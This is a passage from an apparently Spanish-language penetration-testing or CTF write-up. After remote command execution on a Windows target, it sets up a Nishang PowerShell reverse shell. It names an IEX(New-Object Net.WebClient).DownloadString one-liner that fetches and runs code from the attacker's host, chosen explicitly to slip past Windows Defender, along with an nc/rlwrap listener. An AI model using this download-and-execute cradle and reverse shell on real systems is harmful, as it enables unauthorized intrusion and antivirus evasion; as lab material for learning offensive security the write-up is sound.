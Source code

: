 Listo ya tenemos ejecucion remota de comandos pero me interesa establecer una reverse shell, a diferencia de los servidores linux, con windows tenemos que hacer uso de [nisHang](# 'Framework en PowerShell con scripts y payloads para post-explotación, pentesting y red team.')

#### Nishang

Haciendo uso de nuestro framwork de preferencia estableceremos una reverse shell, como lo haremos, ya que tiene el defender activo haremos uso de one liner IEX(New-Object Net.WebClient).DownloadString(to host) para que no sea reconocido por este. Pasos a seguir.

- Vamos a clonarnos el [Repositorio](https://github.com/samratashok/nishang)
- Una vez tenemos el repositorio, ubicaremos el archivo `Invoke-PowerShellTcp.ps1` y modificaremos su contenido.

![shell1](../../../../../assets/analysis/ShellTcp.png)

En la imagen anterior podemos ver como nos indica el uso de este script en powershell, para poder usarlo con IEX  y ejecutar el DownloadString así que retocaremos el archivo .ps1, haremos que se invoque directamente pasando le nuestra IP y puerto en el que estaremos escuchando con **nc** y con **rlwrap -cAr** le asignaremos un historial y autocompletado.

![edit](../../../../../assets/analysis/edit.png)
